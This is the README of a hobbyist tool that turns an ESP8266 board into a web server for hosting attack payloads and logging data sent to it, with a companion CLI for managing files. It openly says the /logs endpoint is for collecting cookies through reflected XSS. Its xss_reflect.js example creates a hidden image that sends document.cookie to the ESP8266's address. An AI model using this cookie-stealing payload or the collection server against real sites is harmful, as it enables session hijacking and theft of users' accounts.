

# ESP8266-remote-payloads

### esp8266闪存文件应用

[详见太极创客](https://www.bilibili.com/video/BV1L7411c7jw?p=8)

### 使用的esp8266模块：

其他esp8266模块或开发板应该也行，只要有flash和WebServer库即可。


### /index.html页面：


### /upload.html页面：

上传的文件将被存储在“/payloads/”根目录下。


### /delete.html页面：

只需要输入文件名如“logs”即可删除“/payloads/”+文件名如“/payloads/logs”文件，文件名不能包含“..”！


### /list操作：

列出/payloads/根目录下的所有文件夹和文件。


### /logs操作：

参数（GET或POST）将会被追加在/payloads/logs文件中，用于反射型XSS漏洞获取Cookie等。

xss_reflect.js举例：

```js
//通过指定的名称'img'创建img元素
var img = document.createElement('img');
img.width = 0;
img.height = 0;

//将img元素的src属性指向脚本文件xss_reflect.php
//将cookie信息的字符串作为URI组件进行编码，然后用ck参数传递
img.src = 'http://192.168.1.103/logs?cookie='+encodeURIComponent(document.cookie);
//将192.168.1.103换成你esp8266服务器的地址
```

# ESP8266-remote-payloads-cli

分为两个文件：

- remote_payloads_cli.ino
- remote_payloads_cli.py

其中remote_payloads_cli.ino在上传到esp8266之前，需要配置好用户名、密码和wifi基本信息（当然，你也可以修改端口等信息，只要你清楚自己在做什么就行），如下


上传完成之后即可用remote_payload_cli.py连接（可被重命名，记得赋予可执行权限），以下为`remote_payload_cli.py -h`的输出内容：

```
usage: remote_payloads_cli.py [-h][-r <url:post>][-u <username>][-p <password>]
description:
    remotely connect to your esp8266 standby with a fake shell.
shell commands:
    Command         Description                     Example
    help            show helpful information        help
    ls              list dir                        ls /payloads
    up              upload local file to esp8266    up ~/Desktop/something.js /payloads/other.js
    cat             show content of a file          cat /payloads/logs
    rm              remove file or dir              (file)rm /payloads/logs
                                                    (dir)rm /payloads/
```

示例：



也可以如下方式连接（password都是没有回显的）：


需要注意的几点：

- 该cli连接方式其实是HTTP连接（命令大部分是POST请求），但不用担心密码泄漏问题（数据和cookie会被中间人劫持，毕竟不是HTTPS协议），其中加密逻辑请各位大佬看看，如若不妥，还请大佬能够指出不当之处！
- 同一个esp8266只允许一个客户端接入（你也可以修改，但比较麻烦），即每次只有一个cookie有效，使用`exit`命令‘正常’结束会话后，cookie当即失效
- url格式为"http://[ip|domain]:port"，末尾**没有**"/"！若端口为80端口，则可忽略
- `rm /filePath/fileName`将删除filePath下fileName文件，而`rm /filePath/`将删除**整个filePath目录及目录下所有文件**！`rm /`则相当于清空内存
- 向`http://[ip|domain]:port/logs`发送的请求，将会被esp8266记录下来，默认追加在`/payloads/logs`文件，这可用于反射型XSS漏洞获取cookie


